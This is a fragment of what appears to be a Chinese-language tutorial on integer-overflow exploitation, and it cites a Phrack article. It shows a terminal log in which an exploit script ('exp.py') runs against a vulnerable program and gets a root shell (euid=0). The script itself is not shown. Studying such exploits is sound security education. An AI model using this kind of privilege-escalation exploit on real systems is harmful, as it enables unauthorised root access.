 ``` bash
$ python exp.py 
Calling vulnerable program
Valid Password
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```
##　参考文章

[phrack-integerflow](http://phrack.org/issues/60/10.html)